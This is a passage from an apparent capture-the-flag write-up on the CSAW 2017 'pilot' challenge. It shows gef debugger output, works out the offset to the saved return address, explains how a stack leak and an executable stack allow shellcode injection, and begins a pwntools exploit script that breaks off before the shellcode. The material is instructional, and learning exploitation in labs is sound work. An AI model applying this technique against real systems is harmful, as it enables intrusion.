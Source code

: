 ```
0x00007fffffffdeb0│+0x0030: 0x0000000000000000
0x00007fffffffdeb8│+0x0038: 0x00007fffffffdf88  →  0x00007fffffffe2cc  →  "/Hackery/pod/modules/bof_shellcode/csaw17_pilot/pi[...]"
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400ad8                  mov    rsi, rax
     0x400adb                  mov    edi, 0x0
     0x400ae0                  call   0x400820 <read@plt>
 →   0x400ae5                  cmp    rax, 0x4
     0x400ae9                  setle  al
     0x400aec                  test   al, al
     0x400aee                  je     0x400b2f
     0x400af0                  mov    esi, 0x400d90
     0x400af5                  mov    edi, 0x6020a0
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pilot", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400ae5 → cmp rax, 0x4
[#1] 0x7ffff767cb97 → __libc_start_main(main=0x4009a6, argc=0x1, argv=0x7fffffffdf88, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffdf78)
[#2] 0x4008d9 → hlt 
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x0000000000400ae5 in ?? ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffde80 - 0x7fffffffde88  →   "15935728[...]" 
gef➤  i f
Stack level 0, frame at 0x7fffffffdeb0:
 rip = 0x400ae5; saved rip = 0x7ffff767cb97
 called by frame at 0x7fffffffdf70
 Arglist at 0x7fffffffde78, args: 
 Locals at 0x7fffffffde78, Previous frame's sp is 0x7fffffffdeb0
 Saved registers:
  rbp at 0x7fffffffdea0, rip at 0x7fffffffdea8
```

So we can see that the offset between the start of our input and the return address is `0x7fffffffdea8 - 0x7fffffffde80 = 0x28` bytes. So now that we've figured out how to overwrite the saved return address, the question is what code we want to execute. We can tell that the stack is executable, since `NX` is turned off. This means that we can execute data stored in the stack memory region, as code. We also have an infoleak from the stack memory region, of specifically where our input gets stored. These two things mean we can load data into memory at a spot that we know the address of, and can execute as instructions. This data I insert is called shellcode, which is just instructions that we insert somewhere into memory, with the hope of running them to accomplish something. As such, we can load shellcode at the start of our input, then some filler data between the end of our shellcode and the return address, and then overwrite the saved return address with the address of our shellcode. That would lead to us to execute instructions of our choosing, and we will have our shellcode just give us a shell. Putting it all together, we have this exploit:

```
from pwn import *

target = process('./pilot')

print(target.recvuntil(b"[*]Location:"))

leak = target.recvline()

inputAdr = int(leak.strip(b"\n"), 16)

payload = b""
# This shellcode is originally from: https://teamrocketist.github.io/2017/09/18/Pwn-CSAW-Pilot/
# However it looks like that site is down now
```